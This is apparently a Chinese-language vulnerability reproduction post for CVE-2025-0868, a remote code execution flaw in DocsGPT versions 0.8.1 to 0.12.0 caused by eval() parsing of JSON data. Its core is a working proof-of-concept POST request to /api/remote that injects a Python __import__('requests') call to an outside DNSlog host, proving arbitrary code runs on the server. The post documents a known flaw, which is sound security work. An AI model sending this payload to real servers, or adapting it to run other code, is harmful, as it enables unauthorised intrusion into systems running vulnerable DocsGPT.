 **漏洞介绍**



![DocsGPT - Open Source AI Assistant](CVE-2025-0868DocsGPT%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/640.png)

DocsGPT是Arc53开源的一个尖端的开源解决方案。简化了在项目文档中查找信息的过程。

DocsGPT 0.8.1版本至0.12.0版本存在安全漏洞，该漏洞源于使用eval函数对JSON数据解析不当。攻击者利用该漏洞可以通过/api/remote端点执行任意Python代码。





**0x02影响版本**



0.8.1<=docsgpt<0.12.0

![img](CVE-2025-0868DocsGPT%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/640-1747013284721-1.png)





**0x03漏洞复现**

1.访问漏洞环境

![img](CVE-2025-0868DocsGPT%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/640-1747013284722-2.png)

2.对漏洞进行复现

 **POC** 

漏洞复现

```
POST /api/remote HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 232

user=1&source=reddit&name=other&data={"source":"reddit","client_id":"1111","client_secret":1111,"user_agent":"111","search_queries":[""],"number_posts":10,"rce\\\\":__import__('requests').get('http://xcxtbrqrwb.iyhc.eu.org/')}#":11}
```

   执行payload，通过响应判断漏洞存在，**这里测试DNSlog回显**

![img](CVE-2025-0868DocsGPT%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.assets/640-1747013284722-3.png)